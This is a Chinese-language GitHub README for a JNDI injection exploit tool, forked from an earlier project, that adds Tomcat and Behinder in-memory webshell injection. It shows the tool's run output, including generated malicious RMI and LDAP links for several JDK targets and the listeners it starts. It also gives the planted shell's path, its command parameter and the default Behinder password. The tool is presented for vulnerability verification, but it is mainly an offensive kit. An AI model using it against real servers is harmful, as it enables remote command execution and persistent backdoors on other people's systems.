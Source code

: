 ## 介绍

JNDI注入利用工具，生成JNDI链接并启动后端相关服务，可用于Fastjson、Jackson等相关漏洞的验证。

原本想自己做一个RMI注入内存马的工具，参考了一下welk1n佬的项目，结果发现佬写的精妙，可以改动的地方很少了已经，索性直接fork大佬的项目，添加工具。
原仓库地址：https://github.com/welk1n/JNDI-Injection-Exploit

冰蝎内存🐴默认密码:rebeyond

## 更新功能

### 内存马注入

直接运行jar包，可以看到添加了Tomcat Memshell、Behinder两种内存马（还在更新中）

```shell
$ java -jar JNDI-Injection-Memshell-1.0-SNAPSHOT-all.jar          
[ADDRESS] >> 127.0.0.1
[COMMAND] >> open /Applications/Calculator.app
----------------------------JNDI Links----------------------------
Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://127.0.0.1:1099/qbf3r4
Target environment(Behinder Memshell):
rmi://127.0.0.1:1099/7oufct
ldap://127.0.0.1:1389/7oufct
Target environment(Tomcat Memshell):
rmi://127.0.0.1:1099/zskyrz
ldap://127.0.0.1:1389/zskyrz
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://127.0.0.1:1099/j5edul
ldap://127.0.0.1:1389/j5edul
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://127.0.0.1:1099/jkzrcz
ldap://127.0.0.1:1389/jkzrcz

----------------------------Server Log----------------------------
2023-08-25 10:07:14 [JETTYSERVER]>> Listening on 0.0.0.0:8180
2023-08-25 10:07:14 [RMISERVER]  >> Listening on 0.0.0.0:1099
2023-08-25 10:07:14 [LDAPSERVER] >> Listening on 0.0.0.0:1389
```

- Tomcat Memshell

  - 命令执行内存马：路径/shell，参数cmd

   ![](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/1.jpg)

- Behinder

  - 冰蝎内存马：路径/shell，密码rebeyond

  

## 待实现

- 融合groovy的bypass利用链到项目中。
- 更新weblogic以及其他中间件的内存马注入环境
